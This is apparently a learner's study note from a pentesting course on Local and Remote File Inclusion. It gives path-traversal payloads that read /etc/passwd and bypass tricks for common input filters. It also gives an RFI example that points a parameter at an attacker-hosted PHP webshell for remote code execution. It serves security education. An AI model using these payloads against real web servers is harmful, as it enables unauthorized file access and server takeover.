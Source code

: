 Local and Remote File Inclusion vulnerabilities affect web servers with unsanitized inputs into a field used to select a specific file on a device. Good candidates for LFI/RFI are language fields, as these usually serve an entirely different webpage. 

Tools:
- [[Burp Suite]]
# LFI
To test, use the `..` operator to maneuver through the filesystem and select the information you are looking for. Ex: `?site=default&lang=../../../../../../../etc/passwd`. This example is for use in a URL, like in `www.example.com`. To try LFI, add the string above to the URL, like so:
`www.example.com?site=default&lang=../../../../../../etc/passwd`. ==Please DON'T try this on any actual website, including example.com, for obvious legal reasons.==

Methods exist of protecting against this attack that are also able to be bypassed. These include:
- Appending a suffix to the string provided; `/etc/passwd` becomes `/etc/passwd.php`
	- Defeated (before a current version of PHP) by appending `%00` to stop PHP processing the string before the suffix is reached. 
- Filtering out `../` sequences.
	- Defeated by building a string that works after the filter has been applied: `....//` -> `../`
- Forcing the request to select from the current directory; `www/`
	- Defeated by selecting from this directory first, and then traversing out; `www/../../../../../`
- Blacklisting special files; `/etc/passwd` disallowed
	- Defeated by path traversal again; `/etc/passwd` -> `/etc/passwd/.`
Some other vulnerabilities also include:
- Filtering only on one request type. For $\_REQUEST calls, the request can be made as either a GET or a POST, but one method may be filtered while the other is not.

# RFI
RFI is even more problematic, because it can lead to immediate RCE. If a web server is horribly misconfigured, the field can be used to point the file requestor method to an http(s) server serving the file. If the file is an executable format like PHP, a webshell or even reverse shell can be planted on the target host and executed from the browser.  Ex: `?site=default&lang=http://<my ip>/webshell.php`. 

*Even if a webshell cannot be uploaded and called into* we may still upload a 
PHP reverse shell and gain command execution on the web server.

RFI example from THM Jr Pentester Path:
![[Remote-File-Inclusion.png]]

Essentially, if a website allows us to choose files, we can trick it into sending a GET request to our machine or website. Then, the victim website will unwittingly execute our malicious file. 

For more information on File Inclusion vulnerabilities, see the TryHackMe Junior Pentester Path. In its' Intro to Web Hacking module, they have a room on File Inclusion vulnerabilities. 